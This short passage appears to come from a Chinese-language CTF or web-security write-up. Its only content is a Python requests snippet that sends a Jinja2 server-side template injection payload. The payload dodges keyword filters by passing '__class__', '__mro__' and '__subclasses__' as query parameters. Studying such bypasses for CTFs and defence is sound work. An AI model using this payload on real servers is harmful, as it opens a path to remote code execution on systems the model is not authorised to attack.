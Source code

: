 使用参数绕过

```
params = {
    'clas': '__class__',
    'mr': '__mro__',
    'subc': '__subclasses__'
}
data = {
    "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
}
r = requests.post(url, params=params, data=data)
print(r.text)
```
